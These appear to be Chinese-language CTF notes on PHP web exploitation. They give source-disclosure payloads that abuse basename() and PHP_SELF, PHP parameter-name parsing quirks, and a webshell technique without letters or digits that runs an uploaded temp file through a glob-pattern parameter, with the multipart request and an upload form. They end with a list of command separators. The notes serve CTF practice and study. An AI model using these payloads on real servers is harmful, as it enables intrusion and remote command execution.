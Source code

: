 payload: /index.php/utils.php/%ff/?show[source
payload: /index.php/utils.php/%ff/?show.source

1.简单来说 basename()函数存在一个问题，它会去掉文件名开头的非 ASCII 值

```
var_dump(basename("xffconfig.php")); // => config.php
var_dump(basename("config.php/xff")); // => config.php
basename("/index.php/config.php")     // => config.php
```

2.**PHP_SELF**

http://localhost:63342/myPhpProject/test.php
`$_Server['PHP_SELF']` 值为 `/myPhpProject/test.php`

3.php 会把.和[解析成\_，php 特性

### [无字母数字 webshell 之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

[无字母数字绕过正则表达式总结（含上传临时文件、异或、或、取反、自增脚本）](https://blog.csdn.net/miuzzx/article/details/109143413)

1.改为 POST， url 参数如下
?c=.+/???/????????[@-[] //[@-[]表示 A-Z 之间 2.上传 1.txt. POST 的 body 内容为

```
Content-Type: multipart/form-data; boundary=54d315347127544a785c723f862e8f7f

--54d315347127544a785c723f862e8f7f
Content-Disposition: form-data; name="submit"


--54d315347127544a785c723f862e8f7f
Content-Disposition: form-data; name="file"; filename="1.txt"
Content-Type: applicatoin/octet-stream

#!/bin/sh
ls
--54d315347127544a785c723f862e8f7f--

```

不知道可以弄一个 html 抓包

```html
<form action="http://8575-5c306ee9-0881-4d77.nss.ctfer.vip:9080/" method="post" enctype="multipart/form-data">
  <input type="file" name="file" id="file" /><br />
  <input type="submit" name="submit" value="提交" />
</form>
```

### 命令分隔符

连续执行 `& && ｜ || ;`
